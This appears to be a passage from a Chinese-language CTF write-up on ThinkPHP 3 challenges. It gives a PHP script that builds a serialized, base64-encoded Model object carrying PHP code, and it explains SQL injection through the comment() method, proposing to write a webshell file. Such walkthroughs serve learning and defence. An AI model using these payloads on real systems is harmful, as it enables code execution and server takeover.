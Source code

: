 只需要控制$username属性，就可以实现渲染php代码

exp:

```php
<?php
namespace Think;
class Model{
    public $id='2';
    public $username="<?php phpinfo();?>";
}
$payload = new Model();
var_dump($payload);
echo 'paylaod$： '.base64_encode(serialize($payload));
```

base64结果可以url编码一下更好

![26](https://the0n3.top/medias/show-think/26.png)

![27](https://the0n3.top/medias/show-think/27.png)

另外一种`需要拿shell，稍微有点难`，看其他师傅博客的poc好长，等我变成tp大佬就回来分析(星星眼)

## web 576

> 描述：注释注入，需要拿shell

```php
$user = M('Users')->comment($id)->find(intval($id));
```

调用了`comment()`方法，项目源码里审计一下，审计了个寂寞

![28](https://the0n3.top/medias/show-think/28.png)

谷歌一下[thinkphp3 comment](https://www.kancloud.cn/manual/thinkphp/1750)

看到了吗，`comment()`方法里的内容直接左右拼接注释符`/**/`，最后再拼接到原语句的最后，可以坏坏！！

我们在`comment()`方法里传入`/*`、`*/`，就可以闭合`comment()`方法里的注释符，在最后的拼接环节实现sql注入

![29](https://the0n3.top/medias/show-think/29.png)

尝试闭合前半部分，让sql报错

![30](https://the0n3.top/medias/show-think/30.png)

闭合后半部分后，正常查询，当然，后半部分也可以直接通过`#`注释掉

![31](https://the0n3.top/medias/show-think/31.png)

那么，在两个注释之间的内容就是我们拼接到sql语句里的可控部分了，这里似乎不存在堆叠注入，道友们可以尝试一下

在这个sql语句里，`intval($id)`查询了一个id，返回结果是当前表里的内容，不可控了。我们可以控制sql语句结束时的操作，例如：把查询内容写进文件，可以控制文件名，实现写一个木马，使用mysql的骚操作，更改间隔符，填充木马内容。如此，在sql查询内容受限的添加下写入木马
